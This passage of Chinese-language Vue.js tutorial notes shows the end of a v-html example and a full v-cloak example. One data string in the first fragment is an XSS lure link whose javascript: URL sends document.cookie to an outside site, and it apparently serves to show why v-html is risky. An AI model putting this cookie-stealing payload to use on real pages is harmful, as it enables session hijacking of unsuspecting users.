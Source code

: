 ```vue
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

#### 1.15.3 v-cloak

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 
				v-cloak指令（没有值）：
						1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
						2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
</html>
```
